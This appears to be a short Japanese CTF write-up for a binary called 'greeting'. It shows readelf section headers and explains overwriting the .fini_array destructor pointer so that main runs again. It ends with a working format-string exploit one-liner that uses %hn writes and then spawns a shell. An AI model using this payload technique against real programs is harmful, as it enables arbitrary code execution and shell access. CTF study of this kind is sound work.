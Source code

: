 ## デストラクタ
`readelf -S greeting`でデストラクタが見れるらしい


```
Section Headers:
  [Nr] Name              Type            Addr     Off    Size   ES Flg Lk Inf Al
  [ 0]                   NULL            00000000 000000 000000 00      0   0  0
  [ 1] .interp           PROGBITS        08048134 000134 000013 00   A  0   0  1
  [ 2] .note.ABI-tag     NOTE            08048148 000148 000020 00   A  0   0  4
  [ 3] .note.gnu.build-i NOTE            08048168 000168 000024 00   A  0   0  4
  [ 4] .gnu.hash         GNU_HASH        0804818c 00018c 00002c 04   A  5   0  4
  [ 5] .dynsym           DYNSYM          080481b8 0001b8 0000f0 10   A  6   1  4
  [ 6] .dynstr           STRTAB          080482a8 0002a8 00009c 00   A  0   0  1
  [ 7] .gnu.version      VERSYM          08048344 000344 00001e 02   A  5   0  2
  [ 8] .gnu.version_r    VERNEED         08048364 000364 000030 00   A  6   1  4
  [ 9] .rel.dyn          REL             08048394 000394 000018 08   A  5   0  4
  [10] .rel.plt          REL             080483ac 0003ac 000058 08   A  5  12  4
  [11] .init             PROGBITS        08048404 000404 000023 00  AX  0   0  4
  [12] .plt              PROGBITS        08048430 000430 0000c0 04  AX  0   0 16
  [13] .text             PROGBITS        080484f0 0004f0 000252 00  AX  0   0 16
  [14] tomori            PROGBITS        08048742 000742 00003e 00  AX  0   0  1
  [15] .fini             PROGBITS        08048780 000780 000014 00  AX  0   0  4
  [16] .rodata           PROGBITS        08048794 000794 000069 00   A  0   0  4
  [17] .eh_frame_hdr     PROGBITS        08048800 000800 00003c 00   A  0   0  4
  [18] .eh_frame         PROGBITS        0804883c 00083c 0000f0 00   A  0   0  4
  [19] .init_array       INIT_ARRAY      0804992c 00092c 000008 00  WA  0   0  4
  [20] .fini_array       FINI_ARRAY      08049934 000934 000004 00  WA  0   0  4
  [21] .jcr              PROGBITS        08049938 000938 000004 00  WA  0   0  4
  [22] .dynamic          DYNAMIC         0804993c 00093c 0000e8 08  WA  6   0  4
  [23] .got              PROGBITS        08049a24 000a24 000004 04  WA  0   0  4
  [24] .got.plt          PROGBITS        08049a28 000a28 000038 04  WA  0   0  4
  [25] .data             PROGBITS        08049a60 000a60 000008 00  WA  0   0  4
  [26] .bss              NOBITS          08049a80 000a68 000028 00  WA  0   0 32
  [27] .comment          PROGBITS        00000000 000a68 00004d 01  MS  0   0  1
  [28] .shstrtab         STRTAB          00000000 000ab5 00010d 00      0   0  1
  [29] .symtab           SYMTAB          00000000 00109c 000500 10     30  46  4
  [30] .strtab           STRTAB          00000000 00159c 00031d 00      0   0  1
```

`.fini_array`がデストラクタらしいので、デストラクタのアドレスを格納しているのアドレスは`08049934`である。

つまり、`*08049934 = (デストラクタのアドレス)`であり、
`*08049934 = (main関数のアドレス)`に書き換えれば、メイン関数を再度呼び出せる。

```
.fini_array       FINI_ARRAY      08049934
```


## 解法

```
echo -e 'aa\x56\x9a\x04\x08\x54\x9a\x04\x08\x34\x99\x04\x08%2020x%12$hn%31884x%13$hn%349x%14$hn\nsh\nls' | ./greeting
```
